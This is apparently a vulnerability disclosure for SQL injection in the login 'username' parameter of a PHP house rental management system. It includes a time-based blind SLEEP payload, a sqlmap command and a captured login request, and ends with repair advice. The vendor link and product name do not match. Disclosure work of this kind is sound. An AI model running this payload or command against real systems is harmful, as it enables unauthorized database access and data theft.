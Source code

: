 # SourceCodester Best house rental management system project in php 1.0 SQL Injection

## NAME OF AFFECTED PRODUCT

- est house rental management system project in php

### Vendor Homepage

- https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html

## AFFECTED AND/OR FIXED VERSION

### submitter

- y3z1f4n

### Vulnerable File

- admin_class.php

### Version

- V1.0

### Software Link

- [Downloading Best house rental management system project in php Code | SourceCodester](https://www.sourcecodester.com/download-code?nid=17375&title=Best+house+rental+management+system+project+in+php+)

## PROBLEM TYPE

### Vulnerable Type

- SQL Injection

### Root Cause

- A SQL injection vulnerability was found in the "admin_class.php" file of the "Best house rental management system project in php" project. The cause of the issue is that an attacker injects malicious code from the parameter "username" and uses it directly for SQL queries to the database without verification. This allows an attacker to construct input values, thereby manipulating SQL queries and performing unauthorized operations.

![image-20240616173045573](https://github.com/yezzzo/y3/assets/75334106/0ef2adad-ff43-4088-818a-3b254dfe4c15)


### Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, full system control and even service interruption, posing a serious threat to system security and business continuity.

## DESCRIPTION

- Due to insufficient user input validation for the "username" parameter, a serious SQL injection vulnerability was found in the login function of "Best house rental management system project in php", allowing attackers to inject malicious SQL queries. As a result, an attacker can gain unauthorized access to the database without logging in, modify or delete data and access sensitive information. Immediate remediation is required to ensure system security and protect data integrity.

## Vulnerability details and POC

### Vulnerability type

- time-based blind

### Vulnerability location

- 'username' parameter in "admin_class.php"

### Payload

- username=admin' AND (SELECT 5426 FROM (SELECT(SLEEP(5)))ABPy) AND 'wtFY'='wtFY&password=pass

We can see that the page response time is 5s，there is time-based blind.

![image-20240616174420199](https://github.com/yezzzo/y3/assets/75334106/b85e33a8-d176-4216-a320-e8db0796dac5)

The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```bash
sqlmap -r source.txt -p username,password --dbs --batch
```

The content of source.txt:

```bash
POST /rental/ajax.php?action=login HTTP/1.1
Host: 192.168.20.156
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 28
Origin: http://192.168.20.156
Connection: close
Referer: http://192.168.20.156/rental/login.php
Cookie: PHPSESSID=ovnjt8tf7so1vsv86582r6ee7v
Priority: u=1

username=admin&password=pass
```
![image-20240616175247067](https://github.com/yezzzo/y3/assets/75334106/950f80b6-8530-4590-9645-075546f09988)




## Suggested repair

1. **Use prepared statements and parameter binding:**
   Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:**
   Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:**
   Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:**
   Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
